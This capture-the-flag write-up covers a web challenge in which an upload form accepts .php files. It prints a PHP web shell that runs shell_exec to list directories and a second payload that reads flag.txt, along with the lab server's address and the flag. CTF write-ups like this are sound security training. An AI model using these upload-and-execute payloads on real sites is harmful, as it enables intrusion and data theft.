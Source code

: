 # Web Exotic Attacks Meme Uploader

The form uses **enctype="multipart/form-data"** with a **POST** request. The input field is:

```html
<input name="fileToUpload" type="file">
```

After uploading, it returns: ***Your file [filename] has been uploaded successfully!***. No download/view link is provided, we found the the files probably to to **/uploads/[filename]**.

The server does not restrict .php extensions, as seen later. So I created a simple PHP shell to enumerate file paths using:
```php
<?php echo "<pre>" . shell_exec('ls -la ../'); ?>
```

Found:

```
total 20
drwxrwxrwx 5 www-data www-data 4096 Jul 17 14:17 .
drwxr-xr-x 9 root     root     4096 Jul 17 14:17 ..
-rw-r--r-- 1 root     root       40 Jul 18  2024 flag.txt
-rw-r--r-- 1 root     root     2125 Jul 18  2024 index.php
drwxrwxrwx 2 root     root     4096 Jul 17 14:48 uploads
```

I updated the payload to print the flag:
```php
<?php echo file_get_contents('../flag.txt'); ?>
```

Uploaded as a new file, uploaded as f49cb1791fc33df072e3feb4dc4d854e.php . Accessing **http://141.85.224.99:8003/uploads/f49cb1791fc33df072e3feb4dc4d854e.php** revealed the flag: **SSS{at_l3ast_ch3ck_f0r_3xt3nsi0ns_n00b}**
